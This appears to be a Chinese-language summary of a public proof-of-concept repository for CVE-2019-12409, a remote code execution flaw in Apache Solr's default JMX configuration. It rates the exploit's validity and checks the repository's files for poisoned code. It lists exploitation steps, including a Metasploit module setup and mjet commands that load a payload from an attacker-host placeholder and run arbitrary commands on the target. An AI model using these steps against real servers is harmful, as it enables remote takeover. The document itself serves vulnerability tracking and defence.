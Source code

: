 ## CVE-2019-12409 Apache Solr RCE

**漏洞编号:** CVE-2019-12409

**漏洞类型:** 远程代码执行

**影响应用:** Apache Solr

**危害等级:** 高危，可完全控制服务器

**影响版本:** 8.1.1 and 8.2.0 for Linux

**利用条件:** 需要目标服务器开启JMX且18983端口对外开放, 并且使用存在漏洞的默认配置 solr.in.sh

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2019-12409 漏洞是由于 Apache Solr 8.1.1 和 8.2.0 版本中默认的 `solr.in.sh` 配置文件中 `ENABLE_REMOTE_JMX_OPTS` 配置项存在不安全设置引起的远程代码执行漏洞。如果使用了受影响版本的默认 `solr.in.sh` 文件，则 JMX 监控将在 RMI_PORT（默认 18983）上启用并暴露，且无需身份验证。如果防火墙允许入站流量访问此端口，则任何具有网络访问权限的人都可以访问 JMX，进而可以上传恶意代码在 Solr 服务器上执行。

**有效性：**
提供的POC代码显示了两种利用方式，使用 Metasploit 和 mjet 工具。 Metasploit 模块 `exploit/multi/misc/java_jmx_server` 被成功用于获取 Meterpreter shell。mjet 工具也提供了安装和执行命令的方式，并且提供了攻击示例，这些都表明POC代码是有效的，可以用于远程代码执行。

**投毒风险：**
*   **README.md:**  包含漏洞描述和利用截图，没有发现恶意代码。
*   **solr.in.sh:** 展示了启用 `ENABLE_REMOTE_JMX_OPTS` 的配置，没有发现恶意代码。
*   **nmap 扫描信息:** 只是端口扫描结果，没有恶意代码。
*   **Metasploit 利用过程:**  使用了 Metasploit 框架的标准模块，风险较低。
*   **mjet 工具利用过程:**  `mjet.py` 是一个 Python 脚本，可能存在风险。`jython-standalone-2.7.0.jar` 是 Jython 解释器，也可能存在风险。`qgmncrbu.jar` 是恶意 payload，风险最高。

总体来看，主要风险在于`mjet.py`脚本和恶意payload `qgmncrbu.jar`，可能存在投毒代码，但是没有进一步分析，因此根据经验判断投毒风险为10%。

**利用方式：**
1.  **确定目标 Solr 服务器版本:** 确认目标服务器运行的是 Apache Solr 8.1.1 或 8.2.0。
2.  **检查 JMX 端口 (18983) 是否开放:** 使用 `nmap` 或类似工具扫描目标服务器的 18983 端口，确认端口是否对外开放。
3.  **使用 Metasploit:**
    *   加载 `exploit/multi/misc/java_jmx_server` 模块。
    *   设置 `RHOSTS` 为目标服务器 IP 地址。
    *   设置 `RPORT` 为 18983。
    *   设置 `LHOST` 和 `LPORT` 为攻击者监听地址和端口。
    *   运行 `exploit` 命令。
4.  **使用 mjet 工具：**
    *   使用 Jython 运行 `mjet.py` 脚本，指定目标 IP 地址、端口和 payload URL。
    *   例如：`java -jar jython-standalone-2.7.0.jar mjet.py <target_ip> 18983 install super_secret http://<attacker_ip>:8000/ 8000`
    *   然后，可以使用 `command` 参数执行任意命令。 例如： `java -jar jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 command super_secret "id&&pwd&&ls"`

**项目地址:** [jas502n/CVE-2019-12409](https://github.com/jas502n/CVE-2019-12409)

**漏洞详情:** [CVE-2019-12409](https://nvd.nist.gov/vuln/detail/CVE-2019-12409)